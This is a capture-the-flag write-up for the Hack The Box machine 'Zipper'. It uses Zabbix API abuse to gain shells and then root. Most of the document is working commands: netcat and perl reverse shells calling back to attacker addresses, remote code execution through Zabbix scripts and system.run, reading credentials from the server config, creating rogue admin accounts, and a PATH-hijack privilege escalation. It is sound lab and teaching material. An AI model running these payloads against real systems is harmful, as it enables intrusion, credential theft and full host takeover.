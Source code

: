 ## Zipper

https://app.hackthebox.com/machines/159

### Zabbix User

```
# NMAP Result
22/tcp    open  ssh        syn-ack OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http       syn-ack Apache httpd 2.4.29 ((Ubuntu))
10050/tcp open  tcpwrapped syn-ack
```

Directory enumeration finds **/zabbix/**.

Logging as Guest, we find "Zapper's Backup Script". This indicates that a user Zapper exists.  

If we try to login with zapper:zapper, we receive "GUI access disabled".  

The API is documented [here](https://www.zabbix.com/documentation/3.0/en/manual/api/reference).

**Login**
```bash
curl http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"user.login", "id":1, "auth":null, "params":{"user": "zapper", "password": "zapper"}}'
```

**Enumerate hosts**
```bash
curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"host.get", "id":1, "auth":"fb6bde5a4e946571232d9ab3f982d97a", "params":{}}' | jq .
```

With this information, we can use [this exploit](https://www.exploit-db.com/exploits/39937) to get RCE.

But first we will do it manually on the four possible ways to get shell access.

<br>

#### Path 1 - API Script Execution
The simplest way is through the API curl.

List existing scripts
```bash
curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.get", "id":1, "auth":"fb6bde5a4e946571232d9ab3f982d97a", "params":{}}' | jq .
```

<br>

Creating a ping script to test:
```bash
curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.create", "id":1, "auth":"fb6bde5a4e946571232d9ab3f982d97a", "params":{"command": "whoami", "name": "test", "execute_on": 0}}' | jq .
```

<br>

Update the script to a reverse shell
```bash
curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.update", "id":1, "auth":"fb6bde5a4e946571232d9ab3f982d97a", "params":{"scriptid": 4, "command": "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f"}}' | jq -c .
```

<br>

Execute the script
```bash
curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.execute", "id":1, "auth":"fb6bde5a4e946571232d9ab3f982d97a", "params":{"hostid": 10106, "scriptid": 4}}'
```

<br>

We get the shell, but it is very unstable. To resolve this, we can pipe a perl shell into the first shell to get a second shell.
```perl
perl -e 'use Socket;$i="10.10.14.3";$p=445;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Listener
```bash
cat perl.shell | nc -lnvp 443
nc -lvnp 445
```

<br>

#### Path 2 - Zabbix to Zabbix Agent
We first use the exploit to get a shell on Zabbix container.
```bash
python2 39937.py
```

And use this to get a RCE into zipper host.
```bash
[zabbix_cmd]>>:  echo "system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 443 >/tmp/f]" | nc 10.10.10.108 10050
```

<br>

#### Path 3 - Admin Creds on Zabbix to GUI
We can find this credentials on zabbix container. We can login with the exploit or edit our first script with the `execute_on` parameter.
```bash
curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.update", "id":1, "auth":"fb6bde5a4e946571232d9ab3f982d97a", "params":{"scriptid": 4, "execute_on": 1}}' | jq -c .

curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.execute", "id":1, "auth":"fb6bde5a4e946571232d9ab3f982d97a", "params":{"hostid": "10106", "scriptid": 4}}' | jq . 
```

<br>

Looking around we find DB credentials that can be used on zabbix GUI access. Note: we use the admin user with this password.
```bash
cat /etc/zabbix/zabbix_server.conf | grep -Ev "^#" | grep .

DBPassword=f.YMeMd$pTbpY3-449
```

And with this access we go to Administration -> Scripts, change the Execute on to Zabbix agent and put a reverse shell on "commands".

And to execute the command we go to Monitoring/Latest Data, update the filters to Zipper, click on zipper and execute the script.

<br>

#### Path 4 - Change Users Via API
We can do a bunch of things with the users via API.

Enable GUI access for zapper.
```bash
curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"usergroup.update", "id":1, "auth":"fb6bde5a4e946571232d9ab3f982d97a", "params":{"usrgrpid": "12", "gui_access": "0"}}' | jq -c '.'
```

<br>

Add admin rights to guest.
```bash
curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"user.update", "id":1, "auth":"fb6bde5a4e946571232d9ab3f982d97a", "params":{"userid": "2", "type": "3"}}' | jq -c '.'
```

<br>

Create new admin user, following the API docs, type 3 = super admin.
```bash
curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"user.create", "id":1, "auth":"fb6bde5a4e946571232d9ab3f982d97a", "params":{"passwd": "bido123", "usrgrps": [{"usrgrpid": "7"}], "alias": "bido", "type": "3"}}' | jq -c '.'
```

<br>

### Zabbix to Zapper
Password found in **/home/zapper/utils/backup.sh** can be used to login as zapper.

Get the SSH key to make the process easier.

<br>

### Privilege Escalation
zabbix-service binary is SUID setted, if we investigate with `strings` and `ltrace` we discover that the binary uses `systemctl daemon-reload && systemctl start zabbix-agent` with relative path.

We can perform PATH Hijacking to get root.
```bash
export PATH=/tmp:$PATH

cat /tmp/systemctl
#!/bin/sh
/bin/sh

./zabbix-service
```

